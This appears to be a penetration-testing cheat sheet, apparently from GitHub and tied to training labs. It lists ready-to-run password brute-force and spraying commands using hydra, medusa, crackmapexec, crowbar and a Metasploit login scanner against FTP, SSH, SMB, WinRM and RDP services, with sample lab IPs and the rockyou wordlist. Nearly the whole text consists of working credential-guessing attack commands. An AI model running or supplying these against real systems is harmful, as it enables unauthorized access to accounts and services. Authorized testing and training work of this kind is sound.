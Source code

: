 `Note: Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.`

# Hydra 
```bash
$ hydra -L user.list -P password.list <protocol>://<IP> -t 48 -p <port>

- L user list 
- l single username 
- P pass list
- p single password
- t <num> threads
- p <port>
```

# FTP
```bash
$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 

$ hydra -L user.list -P password.list ftp://<IP> -s 21
```

# SSH
```bash
$ hydra -L user.list -P password.list ssh://<IP>
```

# SMB
```bash
$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

$ hydra -L user.list -P password.list smb://10.129.42.197

$ msf6 > use auxiliary/scanner/smb/smb_login
```

# WinRM
```bash
$ crackmapexec winrm <IP> -u user.list -p password.list
```

# RDP
```bash
$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
$ hydra -L user.list -P password.list rdp://10.129.42.197`
```

